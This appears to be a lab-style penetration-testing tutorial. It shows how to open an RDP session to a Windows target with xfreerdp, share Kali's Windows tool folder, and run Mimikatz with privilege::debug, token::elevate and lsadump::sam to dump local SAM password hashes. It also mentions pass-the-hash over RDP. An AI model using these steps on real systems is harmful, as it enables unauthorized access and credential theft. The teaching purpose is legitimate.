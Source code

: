 
<img width="1122" height="192" alt="image" src="https://github.com/user-attachments/assets/3e2eceef-acac-40df-94e1-a473b1113806" />

Now let's look at connecting over RDP for a GUI environment.

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can install xfreerdp with the command:
sudo apt install freerdp2-x11

As mentioned, xfreerdp is an incredibly versatile tool with a vast number of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:
xfreerdp /v:IP /u:USERNAME /p:PASSWORD

For example:
xfreerdp /v:172.16.0.5 /u:user /p:'password123!'

Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.

When authentication has successfully taken place, a new window will open giving GUI access to the target.

<img width="1048" height="789" alt="image" src="https://github.com/user-attachments/assets/92fc4996-5cd3-4755-a4bf-77ea668c295a" />


Note that the name of the share will change according to what you selected in the /drive switch.

A useful directory to share is the /usr/share/windows-resources directory on Kali. This shares most of the Windows tools stockpiled on Kali, including Mimikatz which we will be using next. This would make the full command:
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a cmd.exe or PowerShell window as an administrator (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
\\tsclient\share\mimikatz\x64\mimikatz.exe
<img width="657" height="274" alt="image" src="https://github.com/user-attachments/assets/0d57f014-94cc-4c78-adb9-4512fab0f5bc" />

With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:
privilege::debug
token::elevate

<img width="967" height="299" alt="image" src="https://github.com/user-attachments/assets/1a005e7f-f0b4-4c57-86cc-2ccec3fe35bf" />

If we want we could log Mimikatz output with the log command. For example: log c:\windows\temp\mimikatz.log, would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.

We can now dump all of the SAM local password hashes using:
lsadump::sam
